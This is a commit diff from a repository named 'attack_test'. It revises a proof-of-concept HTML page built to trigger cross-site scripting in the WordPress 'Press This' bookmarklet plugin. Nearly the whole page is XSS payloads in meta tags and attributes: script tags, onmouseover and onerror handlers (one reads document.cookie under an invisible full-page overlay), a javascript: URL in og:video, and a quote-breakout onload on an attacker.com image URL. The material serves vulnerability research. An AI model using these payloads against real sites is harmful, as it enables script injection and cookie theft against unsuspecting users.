

Before and after one commit to miamdaegun/attack_test, a plain HTML site: page malicious_xss.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; placeholder pictures from the web are drawn by us.

Commit message:
Revise XSS test cases in malicious_xss.html
Updated the HTML structure and added various XSS test cases for the 'Press This' plugin.

```diff
--- a/malicious_xss.html
+++ b/malicious_xss.html
@@ -2,18 +2,21 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <title>XSS Trap for Press This</title>
+    <title>Advanced XSS Test for Press This</title>
 
-    <meta property="og:description" content="Normal Description <script>alert('XSS 1')</script>">
+    <meta name="description" content='Quote test" onmouseover="alert(1)'>
 
-    <meta name="twitter:description" content='Test Content" onmouseover="alert(document.cookie)" style="position:absolute;width:100%;height:100%;top:0;left:0;" x="'>
+    <meta property="og:description" content="&lt;img src=x onerror=alert(1)&gt;">
 
-    <meta name="description" content="See this image <img src=x onerror=alert('XSS_via_IMG')>">
+    <meta property="og:video" content="javascript:alert(1)//http://youtube.com/v/123">
+
+    <meta property="og:image" content="http://attacker.com/image.jpg?a=&quot;onload=&quot;alert(1)">
 
 </head>
 <body>
-    <h1>Press This Plugin Vulnerability POC</h1>
-    <p>Please click the 'Press This' bookmarklet on this page.</p>
-    <img src="https://via.placeholder.com/150" alt="Test Image">
+    <h1>Press This Sanitization Probe</h1>
+    <p>Use the bookmarklet on this page.</p>
+
+    <img src="http://placehold.it/300x300" data-custom="' onmouseover='alert(1)">
 </body>
 </html>
```
